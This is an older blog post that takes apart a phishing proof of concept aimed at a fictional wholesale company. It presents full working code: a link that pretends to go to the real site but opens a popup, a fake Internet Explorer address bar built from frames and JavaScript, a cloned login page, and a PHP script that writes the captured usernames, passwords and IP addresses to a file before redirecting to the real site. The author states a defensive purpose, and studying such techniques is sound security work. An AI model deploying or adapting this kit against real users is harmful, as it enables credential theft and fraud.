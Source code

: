 ```yaml
---
title: The anatomy of a phishing attack - advanced technique
date: 2007-07-12
tags:
- security
---
```

So many phishing attempts lately are just purely pathetic - easy to guess and figure out, mis spelling and grammar issues and just poorly fashioned websites.  Although these will work on the novice web surfer, can a clever criminal actually create a phishing site/scenario that can trap the experienced members in your IT department?  In this article we're going to take apart a phishing proof of concept attempt I created at ("the triangle") (for privacy sake, however, I'm going to use another fake company as the example) which fooled (or at least surprised a good portion of the IT staff I showed it too).

<!--more-->

I leaped ahead with my phishing example.  I didn't take the time to create a fake phishing e-mail to my target.  Instead, I just told them about the URL -- they knew they were on a proof of concept, so they were willing to visit my website.  Our main company is wholesale peanut butter and jelly sandwiches with a website at `wholesalepbj.com`.  My 'fake' URL that I provided the target with was from an e-mail from `sales@wholesalepbj.com` which told them about a new promotion we were running.  It told them to go to `diamondquality-wholesalepbj.com` for our "Diamond Quality" sale.  All they had to do was log in and get the discount.

I visited `wholesalepbj.com` and collected some key images such as the logo and a few stock photos.  I also noted their font styles and colors and their marketing type of wording.  `diamondquality-wholesalepbj.com`, on my evil server, created one marketing page talking about this amazing, yet believable sale we were running.  I then had a link that said "Click this link to go to our homepage and claim your sale promotion".  This is where the 'evil' started.

This link contained this code:

```html
<em>You are almost there!</em>  
Just click 
<a href="http://www.wholesalepbj.com" onclick="return openPBJ()">this link</a>
```

Just in case our security professional took a quick look at the code, I wanted to make sure it at least looked 'ok'... hence the name seems "innocent" enough.

This is the javascript code:

```javascript
function openPBJ() {
  window.open("redirectToPBJ.html", "PBJWindow",
              "status=0,toolbar=0,location=0,left=1,top=1,height=" 
              + screen.height + ",width=1010"
             );
  return false;
}
```

Now those clever fellows of us are starting to see where I'm going with this.  First off, we have a link that is pointing to the real website but has a javascript handler.  Our function returns `false` so we never go to the URL.  Interesting to note, in both FF2 and IE6/7, when you right click on the link and choose properties (or mouse over for that matter), it shows its source as the real website with no mention about the javascript obstructing the URL).  Finally, in this bit of code, we see a lot of 'naming' that we're using to hopefully throw off the user.  We 'redirect' to `pbj`, we name it `pbjwindow`, etc.  You'll notice the only suspect thing is `location=0` in our window popup.  On most browsers, this is going to allow us to open this window without an address bar.

At this point, I had thought about being done here... but I know that people are training themselves to look for the URL in the address bar now.  If I launched a popup window with no address bar, people might become suspicious.  So I needed to have an address bar... - or at least something that looks like one.

**`redirectToPBJ.html`**
```html
<html>
  <title>http://www.wholesalepbj.com</title>
  <frameset rows="27,*" border=0 frameborder=0>
    <frame src="top.html" scrolling='no' frameborder='0' noresize></frame>
    <frame src="www.wholesalepbj.com.html" name='pbj' scrolling='yes' frameborder='0' noresize></frame>
  </frameset>
</html>
```

If the user actually looked at the code, this page becomes more suspect.  But note, still using our misdirection, we do have the source pointing to `www.wholesalepbj.com.html`.  You may know that that still an html file, but a quick observer might miss that.  Ok, so this content was loaded into the popup window - even the title bar shows our website address.  We're done creating our frames (with no borders and resizing options).

Lets check out the **`top.html`** file.  This is responsible for our address bar.  I made an assumption that the user would be using Internet Explorer.  I made this proof of concept when Internet Explorer 6 was still the default, so the interface may look a little bit different now.  Also, if the user had a different version of windows or a non-classic theme, the address bar may not look like their standard address bar.  But, this is besides the point: our proof of concept was against Internet Explorer 6 with no theme.  

**`top.html`**
```html
<style type="text/css">
  body {
    margin: 0px;
    padding: 0px;
    background-color: #d4d0c8;
    font-family: tahoma;
    font-size: 11px;
    border-top: 1px solid #ffffff;
    border-bottom: 1px solid #aaaaaa;
    vertical-align: middle;
  }

  #address {
    float: left;
    height: 35px;
    padding: 3px;
  }

  #addressbox {
    width: 910px;
  }

  #gobutton {
    background-image: url('go.jpg');
    background-repeat: no-repeat;
    border: 0px;
    padding-left: 17px;
  }
  </style>
  <script type="text/javascript">
    function gotoAddress()
    {
      var v= document.getElementById('addressbox').value;
      if (v.substr(0, 7) != 'http://') {
        v = 'http://' + v;
      }
      top.opener.location.href=v;
      parent.window.close();
      return false;
    }
  </script>

  <p id="address">Address</p>
  <p id="box">
  <form name="address" action="/" onsubmit="return gotoAddress()">
    <input id="addressbox" value="http://www.wholesalepbj.com?promo=TRUE" type="text" />
    <input value="Go" id="gobutton" type="submit" />
  </form>
</p>
```

This is an interesting piece of code.  First off, lets start with what we know.  We know we need and address bar that they're used to seeing - but it has to have the website they expect to be visiting's URL in itself.  It also should function like a normal address bar (It shouldn't just be a picture, it should allow for users to type in it and possibly navigate away from our site.).

The first CSS styles the address bar like our classic theme would.  The **`go.jpg`** is actually an image of the go button we normally see: ![go.jpg](/uploads/2007/go.jpg)

The address bar itself is an input field, and its populated with our proper website URL.  It even has a note in their about this being a promotion, so the user may think that they are logging in to get their sale and discount.  On submit ('enter'), we return the value from the javascript function.  As we had learned earlier, we can always stop something on our website by returning false - so the form field never is submitted because our javascript returns false.

Our javascript reads in the value from the address bar.  If the user did not enter an `http://`, it adds it to the beginning of whatever they entered for them.  Then, the javascript redirects the parent to the URL they entered and closes itself.  Obviously this will look a little strange to the user - why did they type in the URL and the window closes, but we're fine with this for two reasons: 1) most users probably will just think it was a weird quirk with the browser and 2) if we're leaving our phished site, we need to provide a real functional address bar.

So we've solved our address bar issue, lets move on to spoofing the real website.

I simply went to `wholesalepbj.com` in my browser and did a file -> save as - and saved the entire web page and archive named `www.wholesalepbj.com.html`.  I uploaded this to my evil server as well.  It had to be named this so we could support the `src` attribute in our framed document **`top.html`**'s source.

Next, we edited the content of my saved copy of the website.  I changed the login form's URL to point to a page on my evil website which will log their username and password.  If the user clicks any other link besides logging in, they will bust us - they'll go to the real website... but the 'address bar' will stay the same.  (In hindsight, I should have modified the original website's code from wholesalepbj.com that I saved to make it easier to login and encourage them to get their promotion...)  These changes were simple and easy.  (Also, keep in mind, if the user looked at the source of our document, they're gonna see our frame source, not our saved version of the website's source - which could give it away.  They would have to choose a different option to actually see the real source of the saved website).

Lets take a look at what happens when the user logs in.  First off, I changed the input form field to submit to my server's version of login.php.  It contains this code:

```html
<?php
//log all of the information.
$f = fopen('test.txt', 'a');
fwrite(
  $f, 
  "----------------------------\nip: " 
    . $_SERVER['REMOTE_ADDR'] . "n" 
    . print_r($_POST, TRUE)
);
fclose($f);
?>
<script type="text/javascript">
  parent.window.location.href="http://www.wholesalepbj.com/login.php";
</script>
```

First off, the script takes care of logging the user credentials (obviously, in production, I'd be writing this to a database... but this shows a good enough example right now.  Then the page loads, and executes javascript right away, which sets and focuses the parent window's location (parent being this popup - remember, we're in frames). to the real website's login page - but not passing any credentials.  Then the user is on the real website and the damage has been done - we have their credentials.

This was just a 'quick and dirty' proof of concept I did.  There are far more ways to make it more complex, more accurate and more streamlined... (think using hidden iframes to actually login the user to the website, then redirect them to the website after a short break...).  But the proof of concept is successful - there are some phishing situations that would work against even the best and brightest of us.

I should also state that I do not endorse creating phishing websites - its both illegal and unethical.  I will not help anyone create one - I will answer technical questions about my proof of concept's implementation, however.